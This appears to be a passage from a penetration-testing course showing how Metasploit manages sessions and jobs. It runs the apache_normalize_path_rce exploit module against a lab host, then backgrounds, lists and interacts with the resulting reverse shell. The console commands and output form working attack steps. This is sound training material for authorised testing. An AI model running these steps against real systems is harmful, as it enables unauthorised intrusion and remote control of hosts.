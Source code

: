 ```bash
> set SSL false
> set RPORT 80
> set RHOSTS 192.168.50.16
> run
```

Before we head to the next section, let's explore the concept of sessions and jobs in Metasploit. Sessions are used to interact and manage access to successfully exploited targets, while jobs are used to run modules or features in the background.

When we launched the exploit with run, a session was created and we obtained an interactive shell. We can send the session to the background by pressing Ctrl+z and confirming the prompt. Once the session is sent to the background, we can use sessions -l to list all active sessions.

```bash
^Z
Background session 2? [y/N]  y

msf6 exploit(multi/http/apache_normalize_path_rce) > sessions -l

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  ...
  2         shell x64/linux               192.168.119.4:4444 -> 192.168.50.16:35534 (192.168.50.16)

msf6 exploit(multi/http/apache_normalize_path_rce) > sessions -i 2
[*] Starting interaction with 2...

uname -a
Linux c1dbace7bab7 5.4.0-122-generic #138-Ubuntu SMP Wed Jun 22 15:00:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

We can kill a session with sessions -k and the ID as argument.

Instead of launching an exploit module and sending the resulting session to the background, we can use run -j to launch it in the context of a job. This way, we'll still find the output of launching the exploit module, but we'll need to interact with the resulting session before we can access it.

In an assessment, we'll face numerous targets and it is very easy to lose track of machines we already have access to. Using an exploit framework like Metasploit helps us manage access to these machines.

If we want to execute commands on a specific system, we don't have to search through various terminals to find the correct Netcat listener, we can just interact with the specific session. We can launch exploit modules with run -j in the background and Metasploit will automatically create a session for us while we already work on the next target.

In addition, Metasploit also stores information about targets, module results, and vulnerabilities in the database, which are invaluable for further steps in a penetration test and writing the report for the client.
